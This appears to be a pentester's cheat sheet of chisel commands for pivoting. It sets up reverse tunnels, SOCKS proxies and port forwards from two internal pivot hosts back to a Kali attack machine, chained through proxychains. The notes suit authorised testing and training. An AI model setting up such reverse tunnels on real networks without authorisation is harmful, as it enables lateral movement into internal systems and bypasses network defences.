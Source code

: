 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

chisel
~~~cmd
#172.16.40.5
./chisel_amd64 server -p 5555 --reverse &
#10.90.60.80
./chisel client 172.16.40.5:5555 R:socks &
~~~
************************************************************
SPECIFIC PORT FORWARDING
~~~cmd
#1Pivot 10.90.60.80:
chisel server -p 8888 -reverse
#2Pivot 10.185.10.34
chisel client 10.90.60.80:8888 R:9001:10.185.11.127:80
kali 172.16.40.5
chisel server -p 8000 -reverse
#1Pivot 10.90.60.80
chisel client 172.16.40.5:8000 R:8001:127.0.0.1:9001
~~~
************************************************************
************************************************************
DYNAMIC PORT FORWARDING
~~~cmd
#Kali - 172.16.40.5
./chisel_amd64 server --socks5 -p 9001 --reverse &
#1Pivot - 10.90.60.80
./chisel_386 client 172.16.40.5:9001 R:9999:socks &
./chisel_386 server --socks5 -p 9002 --reverse &
#2Pivot - 10.185.10.34
./chisel.exe client 10.90.60.80:9002 R:9998:socks
#Kali
#Modify proxychains to have the following:
socks5 127.0.0.1 9999
socks5 127.0.0.1 9998
~~~
************************************************************
